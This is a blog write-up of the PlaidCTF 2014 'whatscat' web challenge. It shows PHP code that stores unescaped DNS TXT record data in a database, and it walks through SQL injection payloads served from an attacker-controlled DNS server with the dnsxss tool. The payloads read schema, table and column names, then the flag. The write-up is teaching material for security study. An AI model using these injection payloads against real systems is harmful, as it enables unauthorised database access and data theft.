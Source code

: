 ```yaml
---
id: 1856
title: 'PlaidCTF writeup for Web-300 &#8211; whatscat (SQL Injection via DNS)'
date: '2014-04-16T12:29:31-05:00'
author: 'Ron Bowes'
layout: post
guid: 'https://blog.skullsecurity.org/?p=1856'
permalink: /2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns
categories:
    - DNS
    - Hacking
    - 'PlaidCTF 2014'
    - Tools
---
```


Hey folks,

This is my writeup for Whatscat, just about the easiest 300-point Web level I've ever solved! I wouldn't normally do a writeup about a level like this, but much like <a href='/2014/plaidctf-web-150-mtpox-hash-extension-attack'>the mtpox</a> level I actually wrote the exact tool for exploiting this, and even wrote a <a href='/2010/stuffing-javascript-into-dns-names'>blog post about it</a> almost exactly 4 years ago - April of 2010. Unlike mtpox, this tool isn't the least bit popular, but it sure made my life easy!
<!--more-->
<h2>The set up</h2>

Whatscat is a php application where people can post photos of cats and comment on them (<a href='https://blogdata.skullsecurity.org/whatscat.tar.bz2'>Here's a copy of the source</a>).

The vulnerable code is in the password-reset code, in login.php, which looks like this:

<pre>
  <span class="Statement">elseif</span> <span class="Special">(</span><span class="Statement">isset</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">reset</span>&quot;<span class="Special">]))</span> <span class="Special">{</span>
    <span class="Statement">$</span><span class="Identifier">q</span> <span class="Statement">=</span> <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">select username,email,id from users where username='%s'</span>&quot;,
      <span class="Identifier">mysql_real_escape_string</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">name</span>&quot;<span class="Special">])))</span>;
    <span class="Statement">$</span><span class="Identifier">res</span> <span class="Statement">=</span> <span class="Identifier">mysql_fetch_object</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">q</span><span class="Special">)</span>;
    <span class="Statement">$</span><span class="Identifier">pwnew</span> <span class="Statement">=</span> &quot;<span class="Constant">cat</span>&quot;<span class="Statement">.</span><span class="Identifier">bin2hex</span><span class="Special">(</span>openssl_random_pseudo_bytes<span class="Special">(</span><span class="Constant">8</span><span class="Special">))</span>;
    <span class="Statement">if</span> <span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Special">)</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;Don't worry %s, we're emailing you a new password at %s&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email<span class="Special">)</span>;
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;If you are not %s, we'll tell them something fishy is going on!&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">)</span>;
<span class="Statement">$</span><span class="Identifier">message</span> <span class="Statement">=</span> <span class="Statement">&lt;&lt;&lt;</span><span class="Special">CAT</span>
Hello. Either you or someone pretending to be you attempted to reset your password.
Anyway, we set your new password to <span class="Statement">$</span><span class="Identifier">pwnew</span>

If it wasn't you who changed your password, we have logged their IP information as follows:
<span class="Special">CAT</span>;
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
    <span class="Special">}</span>
    <span class="Statement">else</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> &quot;<span class="Constant">Hmm we don't seem to have anyone signed up by that name</span>&quot;;
    <span class="Special">}</span>
</pre>

Specifically, these lines:

<pre>
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
</pre>

The $details variable is being inserted into the database unescaped. I've noted in the past that people trust DNS results just a bit too much, and this is a great example of that mistake! If we can inject SQL code into a DNS request, we're set!

...this is where I wasted a lot of time, because I didn't notice that the print_r() is actually part of the same statement as the line before it - I thought only the reverse DNS entry was being put into the database. As such, my friend <a href='https://twitter.com/mak_kolybabi'>Mak</a>&mdash;who was working on this level first&mdash;tried to find a way to change the PTR record, and broke all kinds of <a href='http://www.skullspace.ca'>SkullSpace</a> infrastructure as a result.

I ended up trying to log in as 'admin'/'password', and, of course, failed. On a hunch, I hit 'forgot password' for admin. That sent me to a <a href='http://mailinator.com/'>Mailinator</a>-like service. I logged into the mailbox, and noticed somebody trying to sql inject using TXT records. This wasn't an actual admin&mdash;like I thought it was&mdash;it was another player who just gave me a huge hint (hooray for disposable mail services!). Good fortune!

Knowing that a TXT record would work, it actually came in handy that Mak controls the PTR records for all SkullSpace ip addresses. He could do something useful instead of breaking stuff! The server I use for blogs (/me waves) and such is on the SkullSpace network, so I got him to set the PTR record to test.skullseclabs.org. In fact, if you do a reverse lookup for '206.220.196.59' right now, you'll still see that:

<pre>
$ host blog.skullsecurity.org
blog.skullsecurity.org is an alias for skullsecurity.org.
skullsecurity.org has address 206.220.196.59
$ host 206.220.196.59
59.196.220.206.in-addr.arpa domain name pointer test.skullseclabs.org.
</pre>

I control the authoritative server for test.skullseclabs.org&mdash;that's why it exists&mdash;so I can make it say anything I want for any record. It's great fun! Though arguably overkill for this level, at least I didn't have to flip to my registrar's page every time I wanted to change a record; instead, I can do it quickly using a tool I wrote called <a href='https://github.com/iagox86/nbtool'>dnsxss</a>. Here's an example:

<pre>
$ sudo ./dnsxss <span class="Special">--payload=</span><span class="Statement">&quot;</span><span class="Constant">Hello yes this is test</span><span class="Statement">&quot;</span>
Listening <span class="Statement">for </span>requests on 0.0.0.0:<span class="Constant">53</span>
Will response to queries with: Hello/yes/this/is/<span class="Statement">test</span>

$ dig <span class="Statement">-t</span> txt test123.skullseclabs.org
<span class="Statement">[</span>...<span class="Statement">]</span>
<span class="Statement">;;</span> ANSWER SECTION:
test123.skullseclabs.org. <span class="Constant">1</span>     IN      TXT     <span class="Statement">&quot;</span><span class="Constant">Hello yes this is test.test123.skullseclabs.org</span><span class="Statement">&quot;</span>
</pre>

All I had to do was find the right payload!

<h2>The exploit</h2>

I'm not a fan of working blind, so I made my own version of this service locally, and turned on SQL errors. Then I got to work constructing an exploit! It was an UPDATE statement, so I couldn't directly exploit this - I could only read indirectly by altering my email address (as you'll see). I also couldn't figure out how to properly terminate the sql string (neither '#' nor '-- ' nor ';' properly terminated due to brackets). In the end, my payload would:

<ul>
  <li>Tack on an extra clause to the UPDATE that would set the 'email' field to another value</li>
  <li>Read properly right to the end, which means ending the query with "resetinfo='", so the "resetinfo" field gets set to all the remaining crap</li>
</ul>

So, let's give this a shot!

<pre>./dnsxss --payload="test', email='test1234', resetinfo='"</pre>

Then I create an account, reset the password from my ip address, and refresh. The full query&mdash;dumped from my test server&mdash;looks like:

<pre><span class="Statement">update</span> users <span class="Statement">set</span> password=<span class="Constant">'catf7a252e008616c94'</span>, resetinfo=<span class="Constant">'test.skullseclabs.orgArray ( [0] =&gt; Array ( [host] =&gt; test.skullseclabs.org [class] =&gt; IN [ttl] =&gt; 1 [type] =&gt; TXT [txt] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">'.test.skullseclabs.org [entries] =&gt; Array ( [0] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">' ) ) ) '</span> <span class="Special">where</span> username=<span class="Constant">'ron'</span></pre>


As you can see, that's quite a mess (note that the injected stuff appears twice.. super annoying). After that runs, the reset-password page looks like:

<pre>
Don't worry ron, we're emailing you a new password at <strong>test1234</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Sweet! I successfully changed my password!

But... what am I looking for?

MySQL has this super handy database called information_schema, which contains tables called 'SCHEMATA', 'TABLES', and 'COLUMNS', and it's usually available for anybody to inspect. Let's dump SCHEMATA.SCHEMA_NAME from everything:

<pre>./dnsxss --payload="test', email=(select group_concat(SCHEMA_NAME separator ', ') from information_schema.SCHEMATA), resetinfo='"</pre>

Then refresh a couple times to find:

<pre>
Don't worry ron, we're emailing you a new password at <strong>information_schema, mysql, performance_schema, whatscat</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Great! Three of those are built-in databases, but 'whatscat' looks interesting. Now let's get table names from whatscat:

<pre>./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>comments, flag, pictures, users</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

flag! Sweet! That's a pretty awesome looking table! Now we're one simple step away... what columns does 'flag' contain?

<pre>./dnsxss --payload="test', email=(select group_concat(COLUMN_NAME separator ', ') from information_schema.COLUMNS where TABLE_NAME='flag'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>flag</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

All right, we know the flag is in whatscat.flag.flag, so we write one final query:

<pre>./dnsxss --payload="test', email=(select group_concat(flag separator ', ') from whatscat.flag), resetinfo='"</pre>

Which gives us:

<pre>
Don't worry ron, we're emailing you a new password at <strong>20billion_d0llar_1d3a</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

And now we dance.

<h2>Conclusion</h2>

If you're interested in DNS attacks&mdash;this scenario and a whole bunch of others&mdash;come see my talk at <a href='http://www.bsidesquebec.org/'>BSidesQuebec</a> this June!!!